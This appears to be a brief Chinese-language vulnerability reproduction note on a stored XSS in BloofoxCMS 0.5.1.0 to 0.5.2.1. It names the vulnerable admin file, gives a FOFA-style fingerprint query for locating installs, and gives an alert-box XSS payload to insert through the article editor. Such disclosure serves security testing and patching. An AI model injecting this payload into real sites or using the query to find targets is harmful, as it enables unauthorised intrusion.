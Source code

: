 # BloofoxCMS 0.5.2.1 存储型XSS

## 漏洞描述

参考链接：

- https://packetstormsecurity.com/files/161195

## 漏洞影响

```
BloofoxCMS 0.5.1.0 -.5.2.1
```

## 网络测绘

```
app="BloofoxCMS"
```

## 漏洞复现

漏洞文件：

```
/admin/include/inc_content_articles.php
```

登录有效的账号，在添加文章的时候插入Payload发布，每次访问均可触发：

```
<img src=# onerror=alert('xss')>
```

